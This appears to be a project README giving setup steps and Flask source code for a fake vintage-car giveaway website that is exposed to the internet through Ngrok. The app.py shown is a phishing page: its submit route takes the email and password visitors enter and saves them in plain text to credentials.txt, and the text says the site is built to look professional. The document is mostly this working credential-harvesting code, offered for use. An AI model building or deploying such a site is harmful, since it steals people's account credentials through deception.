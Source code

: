 ### **1. Tools and Software**:
- **Flask (Python Framework):** The backbone for building and running the giveaway website backend.
- **Ngrok:** Allows exposing the local Flask app to the internet for testing.
- **Visual Studio Code:** Our go-to editor for crafting the code.

### **2. Images and Design**:
- **Vintage Car Enthusiasts Theme:** Inspired by vintage car lovers and enthusiasts.
- **Custom Images:** Backgrounds and car-themed visuals.

---

## **Project Steps** ⚙️

### **Step 1: Setting Up the Environment** ⚙️
1. Install Python dependencies:
   ```bash
   pip install flask
   ```
2. Create a virtual environment:
   ```bash
   python3 -m venv myenv
   source myenv/bin/activate
   ```

---

### **Step 2: Designing the Giveaway Website** 🌐

#### **Website Content:**
The website is designed to appear as a professional giveaway site for vintage car enthusiasts. Below is a breakdown of the implementation.

**app.py:**
```python
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/submit', methods=['POST'])
def submit():
    email = request.form.get('email')
    password = request.form.get('password')
    with open('credentials.txt', 'a') as file:
        file.write(f'Email: {email}, Password: {password}\n')
    return render_template('thank_you.html')

@app.route('/contact')
def contact():
    return render_template('contact.html')

@app.route('/about')
def about():
    return render_template('about.html')

if __name__ == '__main__':
    app.run(debug=True)
```
